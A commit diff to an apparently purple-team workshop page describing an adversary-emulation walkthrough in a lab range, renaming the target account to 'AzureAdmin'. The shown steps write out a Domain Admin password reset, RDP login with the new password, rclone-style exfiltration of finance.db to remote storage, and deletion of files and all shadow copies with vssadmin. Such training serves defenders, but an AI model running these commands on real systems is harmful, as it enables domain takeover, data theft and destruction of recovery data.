

Before and after one commit to hexaplex-security/purple-team-workshop, a Markdown page: emulation.md, 3 parts joined by grey strips. GitHub-like rendering; grey boxes are pictures that could not be loaded.

Commit message:
Replaced 'Administrator' with 'AzureAdmin' in emulation script to reflect correct Azure username

````diff
--- a/emulation.md
+++ b/emulation.md
@@ -219,7 +219,7 @@ We mark our AD user as compromised and then we find a path from the compromised
 
 ![Bloodhound Domain Admins privilege escalation path](images/bloodhound.png)
 
-We can see that our compromised user is a member of `ServerAdmins` group which has `GenericWrite` permissions over the `ITSupport` group which in turn has `AllExtendedRights` over `Administrator` who is Domain Admin.
+We can see that our compromised user is a member of `ServerAdmins` group which has `GenericWrite` permissions over the `ITSupport` group which in turn has `AllExtendedRights` over `AzureAdmin` who is Domain Admin.
 
 ### AD Privilege Escalation
 
@@ -249,7 +249,7 @@ You will need to close the current PowerShell window and open it again from `mim
 
 **Step 18**
 ```PowerShell
-[ITSERVER:PowerShell] Set-ADAccountPassword -Identity "Administrator" -NewPassword (ConvertTo-SecureString 'DomainPwned!' -AsPlainText -Force) -Reset
+[ITSERVER:PowerShell] Set-ADAccountPassword -Identity "AzureAdmin" -NewPassword (ConvertTo-SecureString 'DomainPwned!' -AsPlainText -Force) -Reset
 ```
 ATT&CK Techniques: `T1098`
 
@@ -260,7 +260,7 @@ With Domain Admin privileges we can now finally log into the 3rd server.
 
 **Step 19**
 ```bash
-[KALI:bash] xfreerdp3 /u:Administrator /p:'DomainPwned!' /d:ATTACKRANGE /v:10.0.1.16 /cert:ignore +clipboard
+[KALI:bash] xfreerdp3 /u:AzureAdmin /p:'DomainPwned!' /d:ATTACKRANGE /v:10.0.1.16 /cert:ignore +clipboard
 ```
 ATT&CK Techniques: `T1021.001` `T1078`
 
@@ -304,7 +304,7 @@ And finally we exfiltrate the files that we want (make sure PowerShell is runnni
 
 **Step 23**
 ```PowerShell
-[FINSERVER:PowerShell] C:\Temp\r.exe --config C:\Temp\r.conf copy C:\Users\Administrator\Documents\finance.db ss:data --no-check-dest
+[FINSERVER:PowerShell] C:\Temp\r.exe --config C:\Temp\r.conf copy C:\Users\AzureAdmin\Documents\finance.db ss:data --no-check-dest
 ```
 ATT&CK Techniques: `T1048`
 
@@ -312,7 +312,7 @@ Having exfiltrated the files, let's delete them and all shadow copies using `vss
 
 **Step 24**
 ```PowerShell
-[FINSERVER:PowerShell] rm C:\Users\Administrator\Documents\finance.db
+[FINSERVER:PowerShell] rm C:\Users\AzureAdmin\Documents\finance.db
 [FINSERVER:PowerShell] vssadmin.exe delete shadows /all
 ```
 ATT&CK Techniques: `T1490`
````
